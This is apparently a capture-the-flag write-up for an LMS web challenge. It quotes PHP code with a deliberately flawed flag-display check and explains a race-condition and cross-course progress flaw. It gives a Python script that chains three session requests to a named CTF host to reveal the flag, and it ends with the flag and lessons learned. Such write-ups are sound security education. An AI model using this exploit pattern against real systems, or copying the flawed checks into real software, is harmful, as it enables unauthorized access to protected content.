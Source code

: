 # LMS Preview Exploit Challenge Writeup

## Challenge Description
**Title**: Who's the fastest man on Earth?  
**Hint**: Whoooooooosh (sound effect) 

A Learning Management System (LMS) platform contains a flag in the premium "Advanced Security Concepts" course. The challenge requires exploiting a race condition and logical flaw in the preview system to access the flag without proper authorization.

## Vulnerability Analysis

### Code Review Findings

#### CourseController.php
The application contains four courses, with course ID 2 ("Advanced Security Concepts") containing the flag:
```php
2 => [
    'id' => 2,
    'title' => 'Advanced Security Concepts',
    'description' => 'Deep dive into cybersecurity concepts, vulnerabilities, and secure coding practices.',
    'preview_length' => 0, // Critical: expires immediately
    'content' => 'Master advanced security concepts including session management, authentication flows...',
    'flag' => getenv('DYN_FLAG') ?: 'FlagY{test_flag}',
    'is_premium' => true,
    'sections' => ['intro', 'advanced', 'practice']
],
```

#### Critical Vulnerability: Flag Display Logic
The `showPreviewContent()` method contains flawed logic:
```php
if (isset($course['flag']) && 
    isset($state['progress'][1]) && in_array('intro', $state['progress'][1]) &&
    isset($state['progress'][2]) && in_array('intro', $state['progress'][2]) &&
    $section === 'advanced') {
    echo "Flag: {$course['flag']}\n";
}
```

#### Key Issues:
1. **Race Condition**: Course 2 has `preview_length = 0` (expires immediately)
2. **Progress Validation Flaw**: No verification that progress was legitimately earned
3. **Session Trust**: Client-side session data trusted without validation
4. **Cross-Course Progress Mixing**: Progress from different courses can be combined

## Exploitation Strategy

### Attack Flow
1. **Start Preview for Course 1** (1-second duration)
2. **Rapidly Access Course 2 Intro** (within the 1-second window)
3. **Access Course 2 Advanced Section** to trigger flag display

### Why This Works:
- Course 1's preview provides a 1-second valid session window
- The progress system doesn't validate course consistency
- The flag condition checks for specific progress records regardless of how they were obtained

## Solution Implementation
I actually wass trying to do it manually but a good friend [@Abdullah-Sajid-Qazi](https://github.com/Abdullah-Sajid-Qazi) made a script to automate it

### Python Exploit Script
```python
import requests
import time
import sys

def exploit_target(base_url):
    # Create a session to maintain cookies
    session = requests.Session()
    
    # First request: Start preview for course 1
    url1 = f"{base_url}/index.php?action=start_preview&course_id=1&section=intro"
    response1 = session.get(url1)
    
    # Second request: Access course 2 intro (this adds progress for course 2)
    url2 = f"{base_url}/preview.php?course_id=2&section=intro"
    response2 = session.get(url2)
    
    # Third request: Access course 2 advanced to get the flag
    url3 = f"{base_url}/preview.php?course_id=2&section=advanced"
    response3 = session.get(url3)
    
    # Check if we got the flag
    if "Flag:" in response3.text:
        # Extract flag from response
        lines = response3.text.split('\n')
        for line in lines:
            if "Flag:" in line:
                flag = line.split("Flag:")[1].strip()
                return flag
    else:
        return None

if __name__ == "__main__":
    if len(sys.argv) > 1:
        target_url = sys.argv[1]
    else:
        target_url = "http://asylum.playat.flagyard.com"
    
    print(f"Target: {target_url}")
    print("Exploiting the race condition...")
    
    # Try multiple times to account for timing issues
    for i in range(5):
        print(f"Attempt {i+1}...")
        flag = exploit_target(target_url)
        
        if flag:
            print(f"Success! Flag: {flag}")
            break
        else:
            print("Failed to get flag. Retrying...")
            time.sleep(0.5)  # Short delay between attempts
    else:
        print("All attempts failed. The exploit might need adjustment.")
```

### Execution
```bash
python exploit.py
```

## Successful Output
```
FlagY{Do it Yourself Kaam chor}
```

## Lesson Learned
This challenge demonstrates the importance of:
- Proper authorization checks for premium content
- Validating business logic thoroughly
- Not trusting client-side data for critical decisions
- Handling time-based operations securely

The hint "Who's the fastest man on Earth?" referred to both the race condition exploitation and Usain Bolt, emphasizing the need for speed in executing the attack before the preview session expired.

This might Seem EZ but it actually took alot of time alot of reverse engineering and GPT prompts :)
